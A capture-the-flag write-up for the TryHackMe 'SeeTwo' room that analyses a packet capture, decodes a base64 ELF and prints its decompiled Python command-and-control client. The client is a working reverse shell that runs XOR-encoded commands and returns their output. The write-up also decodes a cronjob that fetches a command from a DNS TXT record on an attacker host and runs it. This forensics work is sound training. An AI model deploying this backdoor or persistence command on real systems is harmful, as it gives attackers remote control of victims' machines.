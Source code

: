 # SeeTwo 

https://tryhackme.com/r/room/seetworoom 

**Can you see who is in command and control?**

## Download the task files

evidence,zip 

only one file in a zip file:

### capture.pcap 

It's a pcapng file. 

Open with NetworkMiner for a quick look.

![networkminer](1-networkminer.png)

3 host 
1 file 

### the file: base64_client.octet-stream 

``$: file base64_client.octet-stream``

base64_client.octet-stream: ASCII text

``$: cat base64_client.octet-stream |base64 -d >> client.step2``

``$: file client.step2 ``

client.step2: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=7714ff204a0a7dcd042276bab94a99bad4d276f0, for GNU/Linux 2.6.32, stripped

It's an elf binary. Try to find something inside. 

```
./pyinstxtractor-ng client.step2 
[+] Processing client.step2
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 11922732 bytes
[+] Found 47 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: client.pyc
[+] Found 74 files in PYZ archive
[+] Successfully extracted pyinstaller archive: client.step2
```
Decomply client.pyc

```
uncompyle6 client.pyc 
# uncompyle6 version 3.9.2
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.12.6 (main, Sep  7 2024, 14:20:15) [GCC 14.2.0]
# Embedded file name: client.py
import socket, base64, subprocess, sys
HOST = "10.0.2.64"
PORT = 1337

def xor_crypt(data, key):
    key_length = len(key)
    encrypted_data = []
    for i, byte in enumerate(data):
        encrypted_byte = byte ^ key[i % key_length]
        encrypted_data.append(encrypted_byte)
    else:
        return bytes(encrypted_data)


with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((HOST, PORT))
    while True:
        received_data = s.recv(4096).decode("utf-8")
        encoded_image, encoded_command = received_data.split("AAAAAAAAAA")
        key = "// REDACTED //".encode("utf-8")
        decrypted_command = xor_crypt(base64.b64decode(encoded_command.encode("utf-8")), key)
        decrypted_command = decrypted_command.decode("utf-8")
        result = subprocess.check_output(decrypted_command, shell=True).decode("utf-8")
        encrypted_result = xor_crypt(result.encode("utf-8"), key)
        encrypted_result_base64 = base64.b64encode(encrypted_result).decode("utf-8")
        separator = "AAAAAAAAAA"
        send = encoded_image + separator + encrypted_result_base64
        s.sendall(send.encode("utf-8"))

# okay decompiling client.pyc
```

We have a key "// REDACTED //" and the encoding method for the communication on Port 1337 from host 10.0.2.64 

## find encoded communication

Open wireshark and use filter: tcp.port == 1337

Follow the TCP stream. Stream3 and Stream4 use a base64 encryption for png files. All TCP segments has a chunk after the png IEND section.   

We have a separator: ``separator = "AAAAAAAAAA"``

check manually the method: 

base64 + XOR with key (Cyberchef)

``OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==``

Good result:

``uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)``


OBA3SEEDQmhHMC4JNSdGUiQGCVBQXlRRRgYmAwIVW08LPxYmBQMOQ2hfYmMHPCoDE2pDWUUACglIQlZ3Rw0QAAABZFVhQlhABzwAe2dWaW4LGzNGQVlXRhQNGwMnChhdeA==

uid=1000(bella) gid=1000(bella) groups=1000(bella),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev)

**Collect all communication chunks**

``$: tshark -r capture.pcap -Y "tcp.port == 1337" -T fields -e data |xxd -r -p > capture.base64.full``

I used sublime text editor to cut all not relevant part. 

the goal 

![xor](4-c2-capture_blur.png)

We can answer for all answer except the flag. 

## find the flag

We can see a cronjob with base64 encryption, try it

```
$: echo "L2Jpbi9zaCAtYyAic2ggLWMgJChkaWcgZXYxbC50aG0gVFhUICtzaG9ydCBAbnMuVEhNe1//REDACTED//" | base64 -d
/bin/sh -c "sh -c $(dig ev1l.thm TXT +short @ns.// REDACTED //.thm)"
```


**DONE**








